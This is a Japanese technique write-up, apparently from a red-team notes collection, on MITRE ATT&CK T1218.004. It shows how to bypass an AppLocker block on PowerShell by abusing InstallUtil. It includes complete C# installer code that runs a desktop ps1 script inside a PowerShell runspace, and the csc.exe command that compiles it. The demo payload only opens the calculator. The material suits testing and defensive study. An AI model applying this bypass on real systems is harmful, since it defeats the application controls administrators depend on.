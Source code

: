 # T1218.004 - InstallUtil

InstallUtil
-------------

InstallUtil を用いた AppLocker のバイパスについて記載します。
検証の前提として、AppLocker GPO to Powershell.exe が適用されている環境を用意します。

|  Type  | Description   |
|:---|:---|:---|
|  ID  |  T1218.004  |
|  Tactic  |  Defense Evasion |
|  Techniques  |  Signed Binary Proxy Execution  |
|  Sub-techniques  |  InstallUtil |



AppLocker をバイパスして実行させる ps1 形式の Powershell スクリプトを準備します。
ここでは簡単のために、start-process で電卓を起動させるスクリプトを用意します。

本スクリプトは、AppLocker による Powershell.exe の制限環境では実行することはできません。

![T1218.004-1](images/T1218.004-1.png)

```
using System;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
public class Program
{
    public static void Main()
    {
    }
}
[System.ComponentModel.RunInstaller(true)]
public class Sample : System.Configuration.Install.Installer
{
    public override void Uninstall(System.Collections.IDictionary savedState)
    {
    Mycode.Exec();
    }
}
public class Mycode
{
    public static void Exec()
    {
    string desktop = System.Environment.GetFolderPath(Environment.SpecialFolder.DesktopDirectory) + "\\app_bypass.ps1";
    string command = System.IO.File.ReadAllText(desktop);
    RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
    Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
    rspace.Open();
    Pipeline pipeline = rspace.CreatePipeline();
    pipeline.Commands.AddScript(command);
    pipeline.Invoke();
    }
}
```

```
cmd /c C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll /unsafe /platform:anycpu /out:%USERPROFILE%\Desktop\Program.exe %USERPROFILE%\Desktop\Program.cs

```